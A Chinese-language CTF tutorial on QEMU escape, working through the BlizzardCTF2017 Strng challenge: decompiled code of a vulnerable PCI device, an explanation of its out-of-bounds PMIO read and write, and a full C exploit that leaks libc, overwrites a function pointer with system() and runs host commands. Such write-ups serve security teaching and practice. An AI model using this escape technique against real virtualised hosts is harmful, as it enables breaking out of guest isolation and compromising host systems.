

# QEMU 逃逸入門

QEMU 逃逸本質上和用戶態的 Pwn 題沒有太大區別，只不過呈現形式略有不同。題目本身通常以一個 QEMU 模擬設備的形式進行呈現，該設備通常會實現一些功能並提供用戶可操縱的 MMIO/PMIO 接口。選手通常需要編寫一個與這些接口進行交互的程序並傳到遠程主機上運行以完成利用（類似於內核 Pwn）。

下面我們通過一道例題來瞭解 QEMU Pwn 題目的基本做法。

## 例題：BlizzardCTF2017 - Strng

> 注：題目環境可以在 [Github](https://github.com/rcvalle/blizzardctf2017/releases) 進行下載，登入用戶名爲 `ubuntu`，密碼爲 `passw0rd`。

### 題目分析

首先查看啓動腳本，可以發現其通過 `-device strng` 參數載入了一個自定義設備 `strng`。

```bash
./qemu-system-x86_64 \
    -m 1G \
    -device strng \
    -hda my-disk.img \
    -hdb my-seed.img \
    -nographic \
    -L pc-bios/ \
    -enable-kvm \
    -device e1000,netdev=net0 \
    -netdev user,id=net0,hostfwd=tcp::5555-:22
```

直接將 QEMU 拖入 IDA 進行分析，首先通過字符串窗口找到 `"strng"` ，從而找到該設備的初始化函數：


可以看到該設備分別註冊了 MMIO 與 PMIO 功能接口，並且在一些位置上放上了幾個函數指針：

```c
void __fastcall strng_instance_init(Object_0 *obj)
{
  Object_0 *v1; // rax

  v1 = object_dynamic_cast_assert(obj, "strng", "/home/rcvalle/qemu/hw/misc/strng.c", 145, "strng_instance_init");
  *(_QWORD *)&v1[76].ref = &srand;
  v1[76].parent = (Object_0 *)&rand;
  v1[77].class = (ObjectClass_0 *)&rand_r;
}

void __fastcall pci_strng_realize(PCIDevice_0 *pdev, Error_0 **errp)
{
  memory_region_init_io(
    (MemoryRegion_0 *)&pdev[1],
    &pdev->qdev.parent_obj,
    &strng_mmio_ops,
    pdev,
    "strng-mmio",
    0x100uLL);
  pci_register_bar(pdev, 0, 0, (MemoryRegion_0 *)&pdev[1]);
  memory_region_init_io(
    (MemoryRegion_0 *)&pdev[1].io_regions[0].size,
    &pdev->qdev.parent_obj,
    &strng_pmio_ops,
    pdev,
    "strng-pmio",
    8uLL);
  pci_register_bar(pdev, 1, 1u, (MemoryRegion_0 *)&pdev[1].io_regions[0].size);
}
```

IDA 反編譯出來的放置函數指針的位置怪怪的，這裏直接看彙編源碼：

```ida
.text:000000000041033E                 call    object_dynamic_cast_assert
.text:0000000000410343 strng = rax                             ; STRNGState *
.text:0000000000410343                 mov     rdx, cs:srand_ptr_0
.text:000000000041034A                 mov     [strng+0BF8h], rdx
.text:0000000000410351                 mov     rdx, cs:rand_ptr_0
.text:0000000000410358                 mov     [strng+0C00h], rdx
.text:000000000041035F                 mov     rdx, cs:rand_r_ptr
.text:0000000000410366                 mov     [strng+0C08h], rdx
```

接下來我們跳轉到函數表中對應的函數進行分析，在 `(u32*)opaque[701]` 處存在一個 `unsigned int` 數組（這裏我們定義爲 `opaque->buf`），MMIO 的 read 主要是簡單的讀取 `opaque->buf[(addr >> 2)]` 上的 4 字節內容，看起來似乎可以存在一個越界讀取，但是**在 QEMU 內部會檢查 MR 訪問範圍（addr）是否超過定義的內存範圍，所以其實是沒法進行越界讀取的**：

> `opaque` 參數其實就是設備加載時動態分配的 `PCIDevice` 類的一個自定義子類。

```c
uint64_t __fastcall strng_mmio_read(void *opaque, hwaddr addr, unsigned int size)
{
  uint64_t result; // rax

  result = -1LL;
  if ( size == 4 && (addr & 3) == 0 )
    result = *((unsigned int *)opaque + (addr >> 2) + 701);
  return result;
}
```

MMIO 的 write 功能則根據寫入的地址不同提供了不同的功能（有點亂）：

- 地址爲 `0`：將 `(u64*)opaque[383]` 處數據作爲函數指針進行調用，參數爲傳入的值
- 地址爲 `1 << 2`：將 `(u64*)opaque[384]` 處數據作爲函數指針進行調用，並將結果寫入 `opaque->buf[3]`
- 地址爲 `其他值 << 2`：在 `opaque->buf[(addr>>2)]` 處寫入傳入的值
  - 若地址爲 `3 << 2`，則會在此之前將 `(u64*)opaque[385]` 處數據作爲函數指針進行調用，參數爲 `&((char*)opaque[2812])` ，並往 `opaque->buf[3]` 寫入傳入的值

```c
void __fastcall strng_mmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  hwaddr v4; // rsi
  int v5; // eax
  int vala; // [rsp+8h] [rbp-30h]

  if ( size == 4 && (addr & 3) == 0 )
  {
    v4 = addr >> 2;
    if ( (_DWORD)v4 == 1 )
    {
      *((_DWORD *)opaque + 702) = (*((__int64 (__fastcall **)(void *, hwaddr, uint64_t))opaque + 384))(opaque, v4, val);
    }
    else if ( (_DWORD)v4 )
    {
      if ( (_DWORD)v4 == 3 )
      {
        vala = val;
        v5 = (*((__int64 (__fastcall **)(char *))opaque + 385))((char *)opaque + 2812);
        LODWORD(val) = vala;
        *((_DWORD *)opaque + 704) = v5;
      }
      *((_DWORD *)opaque + (unsigned int)v4 + 701) = val;
    }
    else
    {
      (*((void (__fastcall **)(_QWORD))opaque + 383))((unsigned int)val);
    }
  }
}
```

PMIO 的 read 功能則是進行數據讀取：

- 若 `addr == 0` ，則返回 `(unsigned int *)opaque[700]` 的值。
- 若 `addr == 4` ，則獲取  `(unsigned int *)opaque[700]` 的值 `v4`，若低 2 位爲 0 則返回  `opaque->buf[(v4 >> 2)]` 上數據。

若我們能夠控制 `(unsigned int *)opaque[700]` 的值，則可以直接完成一個越界讀。

```c
uint64_t __fastcall strng_pmio_read(void *opaque, hwaddr addr, unsigned int size)
{
  uint64_t result; // rax
  unsigned int v4; // edx

  result = -1LL;
  if ( size == 4 )
  {
    if ( addr )
    {
      if ( addr == 4 )
      {
        v4 = *((_DWORD *)opaque + 700);
        if ( (v4 & 3) == 0 )
          result = *((unsigned int *)opaque + (v4 >> 2) + 701);
      }
    }
    else
    {
      result = *((unsigned int *)opaque + 700);
    }
  }
  return result;
}
```

PMIO 的 write 功能定義如下：

- 若 `addr == 0`，則將傳入的值寫入  `(unsigned int *)opaque[700]` ，因此結合 PMIO read 我們便可以完成越界讀。
- 若 `addr == 4`，則獲取  `(unsigned int *)opaque[700]` 的值 `v4`，若低 2 位爲 0 則取 `v5 = v4 >>2`：
  - 若 `v5 == 1`，則調用 `(u64*)opaque[384]` 處函數指針，返回值寫入 `opaque->buf[1]`，參數見代碼
  - 若 `v5 == 3`，則調用 `(u64*)opaque[385]` 處函數指針，返回值寫入 `opaque->buf[3]`，參數見代碼
  - 若 `v5 != 0`，則將傳入的值寫入  `opaque->buf[v5]`
  - 若 `v5 == 1`，則調用 `(u64*)opaque[383]` 處函數指針，參數爲我們傳入的值

```c
void __fastcall strng_pmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  unsigned int v4; // eax
  __int64 v5; // rax

  if ( size == 4 )
  {
    if ( addr )
    {
      if ( addr == 4 )
      {
        v4 = *((_DWORD *)opaque + 700);
        if ( (v4 & 3) == 0 )
        {
          v5 = v4 >> 2;
          if ( (_DWORD)v5 == 1 )
          {
            *((_DWORD *)opaque + 702) = (*((__int64 (__fastcall **)(void *, __int64, uint64_t))opaque + 384))(
                                          opaque,
                                          4LL,
                                          val);
          }
          else if ( (_DWORD)v5 )
          {
            if ( (_DWORD)v5 == 3 )
              *((_DWORD *)opaque + 704) = (*((__int64 (__fastcall **)(char *, __int64, uint64_t))opaque + 385))(
                                            (char *)opaque + 2812,
                                            4LL,
                                            val);
            else
              *((_DWORD *)opaque + v5 + 701) = val;
          }
          else
          {
            (*((void (__fastcall **)(_QWORD))opaque + 383))((unsigned int)val);
          }
        }
      }
    }
    else
    {
      *((_DWORD *)opaque + 700) = val;
    }
  }
}
```

### 漏洞利用

由於 PMIO read 功能的讀取地址由 `(unsigned int *)opaque[700]` 決定，而該值可以通過PMIO write 寫入 `addr == 0` 處進行修改，由於題目一開始便在 `opaque` 靠後的放置了一些函數指針，因此我們可以通過讀取這些函數指針泄露 libc 基址。

同樣地，當 `addr == 4` 時，PMIO write 會向指定地址 + 偏移處寫入數據，而該偏移值爲我們可控的  `(unsigned int *)opaque[700]`，因此我們可以非常方便地劫持 `opaque` 上的函數指針，而這些函數指針又可以通過 MMIO write 與 PMIO write 進行觸發，因此不難想到的是我們可以通過劫持這些函數指針來完成控制流劫持。

當 `(unsigned int *)opaque[700] == 3` 時，調用函數指針會傳入一個 `opaque` 上地址作爲第一個參數，而該處數據同樣是我們可控的，因此我們可以在該處先寫入字符串後再劫持函數指針爲 `system()` 後直接調用即可完成 Host 上的任意命令執行。

### 交互方式

QEMU pwn 題會提供給我們一個 local Linux 環境，通常都有着 root 權限（除了一些套娃題目會要求選手先完成提權），通常我們我們需要使用 C 編寫 exp，將其進行靜態編譯後傳輸到遠程運行。有的題目也會提供本地編譯環境（例如本題），這樣我們便只需要傳輸 exp 的源代碼到遠程再編譯運行即可。

首先說一下與題目進行交互的方式。QEMU pwn 的漏洞通常出現在一個自定義 PCI 設備中，我們可以通過 `lspci` 命令查看現有的 PCI 設備，在每個設備開頭都可以看到形如 `xx:yy.z` 的十六進制編號，這個格式其實是 `總線編號:設備編號.功能編號`，當我們使用 `lspci -v `查看 PCI 設備信息時，在總線編號前面的 4 位數字便是 PCI 域的編號。

通常我們可以看到一個未被識別的設備，這通常便是題目設備。這裏我們可以看到 PMIO 地址爲 `0xc050`，MMIO 地址（物理地址）爲 `0xfebf1000`：



對於 PMIO 交互方式，我們可以先通過 `iopl(3)` 獲取交互權限，接下來直接使用 `in()` 與 `out()` 系函數即可讀寫端口，需要注意的是**端口地址應與讀寫長度對齊**（例如讀寫 4 字節則端口地址需要對齊到 4），下面是一個例子：

```c
void pmio_write(uint32_t port, uint32_t val)
{
    outl(val, port);
}

uint32_t pmio_read(uint32_t port)
{
    return inl(port);
}

int main(int argc, char **argv, char **envp)
{
    uint32_t  pmio_port = 0xc050;
    uint32_t  val;
    //...
    
    if (iopl(3) < 0) {
        errExit("failed to change i/o privilege! no root?");
    }

    /* This is just an example */
    val = pmio_read(pmio_port);
    pmio_write(pmio_port + 4, 0xdeadbeef)
```

MMIO 的交互方式則略有麻煩，因爲 MMIO 本質上是直接讀寫對應的物理地址，不過我們可以通過 `mmap()` 映射 sysfs 下的資源文件來完成內存訪問。以本題爲例，通過 `lspci` 命令獲取到的編號爲 `00:03.0`，那麼我們便可以通過 `mmap()` 映射 `/sys/devices/pci0000:00/0000:00:03.0/resource0` 文件直接完成 MMIO。類似於 PMIO，MMIO 的讀寫地址同樣需要對齊到讀寫長度。下面是一個例子：

```c
void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
{
    return *addr;
}

int main(int argc, char **argv, char **envp)
{
    uint64_t  mmio_addr;
    int   mmio_fd;
    long  val;
    //...
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    val = mmio_read(mmio_addr);
    mmio_write(mmio_addr + 4, 0xbeefdead);
```

> 注：我們也可以通過映射 `/sys/devices/pci0000:00/0000:00:03.0/resource1` 文件的形式來以內存讀寫的形式完成 PMIO。

完整 exp 如下，執行了 `cat ./flag` 與彈計算器的命令：

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/io.h>

#define STRNG_MMIO_REGS 64
#define STRNG_MMIO_SIZE (STRNG_MMIO_REGS * sizeof(uint32_t))

#define STRNG_PMIO_ADDR 0
#define STRNG_PMIO_DATA 4
#define STRNG_PMIO_REGS STRNG_MMIO_REGS
#define STRNG_PMIO_SIZE 8

char calc_str[0x100] = ";cat ./flag;gnome-calculator";
char sh_str[0x100] = "/bin/sh";

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
{
    return *addr;
}

void pmio_write(uint32_t port, uint32_t val)
{
    outl(val, port);
}

uint32_t pmio_read(uint32_t port)
{
    return inl(port);
}

int main(int argc, char **argv, char **envp)
{
    uint64_t    mmio_addr;
    uint32_t    pmio_port = 0xc050;
    int         mmio_fd;
    uint32_t    srand_addr_low, srand_addr_high;
    uint64_t    srand_addr;
    uint64_t    libc_addr;
    uint64_t    system_addr;

    /*
     * initialization
     */
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }
    
    if (iopl(3) < 0) {
        errExit("failed to change i/o privilege! no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    /*
     * regs[3] is not writable, because for addr 3 the rand_r() will be called
     * so we fill some useless string there
     */
    for (int i = 0; i < 4; i++)
        mmio_write((uint32_t*)(mmio_addr + ((2 + i) << 2)), (uint32_t*)"aaaa");

    for (int i = 0; i < 10; i++)
        mmio_write((uint32_t*)(mmio_addr + ((6 + i) << 2)), ((uint32_t*)calc_str)[i]);

    /*
     * exploitation
     */
    
    /*
     * Stage.I - leaking libc addr
     * set the strng->addr by pmio_write to a oob val
     * so that we can make an oob read by pmio_read
     */
    puts("[*] Stage.I - leaking libc addr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 1) << 2);
    srand_addr_low = pmio_read(pmio_port + STRNG_PMIO_DATA);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 2) << 2);
    srand_addr_high = pmio_read(pmio_port + STRNG_PMIO_DATA);

    srand_addr = srand_addr_high;
    srand_addr <<= 32;
    srand_addr += srand_addr_low;
    libc_addr = srand_addr - 0x460a0;
    system_addr = libc_addr + 0x50d60;

    printf("[+] get addr of srand: 0x%llx\n", srand_addr);
    printf("[+] libc addr: 0x%llx\n", libc_addr);
    printf("[+] system addr: 0x%llx\n", system_addr);

    /*
     * Stage.II - overwrite the rand_r ptr
     * set the strng->rand_r to system by oob write in pmio
     */
    puts("\n[*] Stage.II - overwrite the rand_r ptr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 5) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) system_addr);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 6) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) (system_addr >> 32));

    puts("[+] write done!");

    /*
     * Stage.III - control flow hijack!
     * call the strng->rand_r by pmio_write and hijack the control flow!
     */
    puts("\n[*] Stage.III - control flow hijack\n");

    puts("[*] trigger the strng->rand_r()...");
    pmio_write(pmio_port + STRNG_PMIO_ADDR, 3 << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, 0xdeadbeef);

}
```

## REFERENCE

[qemu pwn-Blizzard CTF 2017 Strng writeup](https://xz.aliyun.com/t/6618#toc-4)

[【HARDWARE.0x00】PCI 設備簡易食用手冊](https://arttnba3.cn/2022/08/30/HARDWARE-0X00-PCI_DEVICE/)

